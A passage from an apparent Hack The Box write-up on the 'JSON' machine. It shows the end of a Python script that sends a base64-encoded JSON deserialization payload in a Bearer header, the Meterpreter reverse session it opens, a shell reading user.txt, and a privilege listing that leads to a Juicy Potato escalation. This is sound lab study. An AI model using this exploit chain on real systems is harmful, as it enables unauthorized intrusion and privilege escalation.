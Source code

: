 	minified = json.dumps(json.loads(payload)).encode()

	headers = {
		"Bearer": base64.b64encode(minified)
	}

	resp = requests.get("http://json.htb/api/Account/", headers=headers)
{% endhighlight %}

Running the script got us our session ! :)

{% highlight raw %}
[*] Sending stage (180291 bytes) to 10.10.10.158
[*] Meterpreter session 1 opened (10.10.XX.XX:XXXX -> 10.10.10.158:52355) at 2020-02-15 09:29:17 -0500
meterpreter > getuid
Server username: JSON\userpool
{% endhighlight %}
    
# user.txt

{% highlight raw %}
meterpreter > shell
Process 676 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>more C:\Users\userpool\Destkop\user.txt
3445XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

If we look at what privileges we have as `userpool`,

{% highlight raw %}
c:\windows\system32\inetsrv>whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
{% endhighlight %}

According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md), if we got `SeImpersonate` or  `SeAssignPrimaryToken` privileges (which is this case we have both), we can use [`Juicy Potato`](https://github.com/ohpe/juicy-potato).
